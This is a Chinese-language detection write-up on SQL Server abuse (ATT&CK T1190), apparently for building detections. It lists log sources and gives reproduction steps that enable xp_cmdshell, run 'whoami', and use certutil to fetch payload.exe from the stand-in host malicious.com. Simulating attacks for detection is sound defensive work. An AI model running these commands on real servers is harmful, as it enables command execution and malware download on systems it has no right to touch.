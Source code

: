 # T1190-检测SQL Server滥用

## 描述

攻击者可能利用面向Internet的应用程序（如SQL Server数据库）的漏洞，通过软件、数据或命令引发意外或非预期行为，从而实现初始访问、权限提升或防御逃逸（T1190）。SQL Server作为常见的企业数据库服务，可能因配置错误、弱密码、未修补的漏洞或不安全的权限管理而成为攻击目标。攻击者可能通过SQL注入、凭据暴力破解或滥用SQL Server的合法功能（如执行系统命令）来实现恶意目的。

SQL Server提供了多种工具（如`xp_cmdshell`、`sqlcmd`）和功能，用于自动化任务、导出数据或运行脚本。攻击者可能重新利用这些合法工具执行恶意命令，如下载恶意软件、创建后门或进行网络侦察。在云化基础架构中，SQL Server的漏洞利用可能导致底层实例受损，允许攻击者访问云API或利用弱身份和访问管理策略。OWASP Top 10和CWE Top 25提供了常见的数据库和Web漏洞参考。

## 测试案例

1. **通过xp_cmdshell执行系统命令**  
   攻击者利用SQL Server的`xp_cmdshell`功能执行系统命令（如`whoami`或`netstat`），获取主机信息或建立持久化。

2. **凭据窃取**  
   攻击者通过SQL注入或弱凭据访问SQL Server，运行脚本导出用户凭据或数据库内容。

3. **异常工具调用**  
   攻击者利用SQL Server进程（如`sqlservr.exe`）启动可疑命令（如`certutil`下载恶意文件），进行恶意操作。

## 检测日志

**Windows安全日志和Sysmon日志**  
检测SQL Server滥用依赖以下日志来源：
- **Windows安全日志**：
  - 事件ID 4688：记录进程创建，包含命令行参数。
  - 事件ID 4624/4625：记录登录成功或失败，可能涉及SQL Server服务账户。
- **Sysmon日志**：
  - 事件ID 1：记录进程创建和命令行参数，适合检测SQL Server进程启动的可疑命令。
  - 事件ID 11：记录文件创建，可能涉及恶意文件下载。
- **SQL Server日志**：记录异常查询、错误消息或高危命令（如`xp_cmdshell`调用）。
- **网络日志**：记录SQL Server端口（默认1433）的异常流量。

## 测试复现

1. **环境准备**：
   - 部署SQL Server实例，启用`xp_cmdshell`（默认禁用）。
   - 配置Sysmon和Windows安全日志，记录进程创建（事件ID 4688、Sysmon ID 1）。
   - 示例SQL命令启用`xp_cmdshell`：
     ```sql
     EXEC sp_configure 'show advanced options', 1;
     RECONFIGURE;
     EXEC sp_configure 'xp_cmdshell', 1;
     RECONFIGURE;
     ```

2. **模拟攻击**：
   - 使用SQL Server账户执行系统命令。
   - 示例SQL命令（通过`xp_cmdshell`运行`whoami`）：
     ```sql
     EXEC xp_cmdshell 'whoami';
     ```
   - 模拟攻击者调用可疑工具：
     ```sql
     EXEC xp_cmdshell 'certutil -urlfetch -f http://malicious.com/payload.exe';
     ```
